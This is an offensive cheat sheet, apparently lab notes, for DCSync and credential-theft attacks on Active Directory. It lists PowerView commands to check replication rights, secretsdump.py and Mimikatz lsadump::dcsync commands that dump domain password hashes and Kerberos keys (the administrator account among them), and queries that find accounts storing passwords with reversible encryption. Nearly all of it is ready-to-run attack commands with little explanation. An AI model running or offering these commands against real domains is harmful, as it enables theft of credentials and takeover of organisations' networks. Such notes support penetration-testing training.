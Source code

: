 # First check if the user has the necessary rights

## Get SID
```powershell
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

## Using Get-ObjectAcl to Check user's Replication Rights

```powershell
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

## Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```

## Mimikatz

Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize runas.exe to accomplish this:
```powershell
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

### Performing the Attack with Mimikatz

```powershell
.\mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```


# Attacking users with Reversible Encryption Password Storage Set
When this option is set on a user account, it does not mean that the passwords are stored in cleartext. Instead, they are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the Syskey) and can be extracted by a Domain Admin or equivalent


## Enum
```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```